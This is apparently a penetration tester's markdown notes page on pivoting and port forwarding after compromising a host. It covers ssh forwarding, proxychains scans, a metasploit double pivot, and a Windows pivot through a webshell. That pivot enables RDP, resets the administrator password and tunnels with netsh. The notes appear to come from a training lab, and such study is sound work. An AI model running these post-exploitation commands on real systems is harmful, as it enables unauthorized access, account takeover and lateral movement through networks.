 # Forwarding

Port forwarding can be useful if you get on to a victim and they are running a service locally that you want to interact with back on the attack machine. Or if the victim is connected to a network the attacker cannot access directly, proxychains in this case would allow the attacker to use the victim to attack the rest of the network


## ssh

![Pasted image 20220807173120](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0868e1b6-51dd-443b-8adc-e7b5a0b44764)

<img width="587" alt="Screen Shot 2022-10-02 at 7 14 03 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/790e1b77-fde9-4761-ae00-e3cda178ff00">

## Example with ssh and proxy chains
This example assumes attacker reached a victim that has access to networks the attacker had not previously had access to.

## proxychains
make sure config is set up

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/12574f68-19d3-4858-824f-b589face8588)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/1fe6b9e9-7206-4351-898c-1927972db6a1)


```
proxychains nmap -sV -sC -Pn -v -A --reason 172.16.8.3 2>&1 | grep -v -E 'socket error|timeout|Strict'
```

### Using Firefox
Settings-> proxy

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/8e5ae2e6-6dcc-4110-ae32-be7936c977f4)

## Double pivot with metasploit
This chain will allow us to directly ssh MGMT01 from kali
Attack -> dmz01 -> DC01 -> MGMT01

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/703b0623-1e04-4507-b261-1a6939549755)



Steps 
1) create linux meterpreter shell for dmz01
2) create windows meterpreter shell for DC01
3) configure msfconsole
4) run dmz

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/de563e25-4b0b-4373-91ce-be1e27496bb1)


## chisel


## without ssh on windows

without ssh 
First, from the webshell, set the registry key so we can log in

```Powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

dont know any creds on the box so let’s just change the local admin’s pass, from the webshell

```Powershell
net user administrator newpass
```

now, from the linux attack host, log into a very limited cmd shell on WEB-WIN01 to setup a tunnel, where WEB-WIN01 is also the 10.X.X.X ip address of the webshell

```bash
xfreerdp /v:<WEB-WIN01> /u:administrator /p:newpass /cert:ignore
```

in the new RDP cmd window, after using `nslookup` to discover MS01 is `172.16.6.50` , make a tunnel with the `netsh` command which links WEB01’s 10.X.X.X reachable address on port 1515 to MS01’s RDP port 3389, like this:

```cmd
netsh interface portproxy add v4tov4 listenport=1515 listenaddress=<WEB-WIN01> connectport=3389 connectaddress=172.16.6.50
```

RDP into MS01 from our attack host through the tunnel we just made to MS01 on WEB-WIN01 port 1515:

```bash
xfreerdp /v:<WEB-WIN01>:1515 /u:svc_XXX /p:XXckX7 /cert:ignore
```
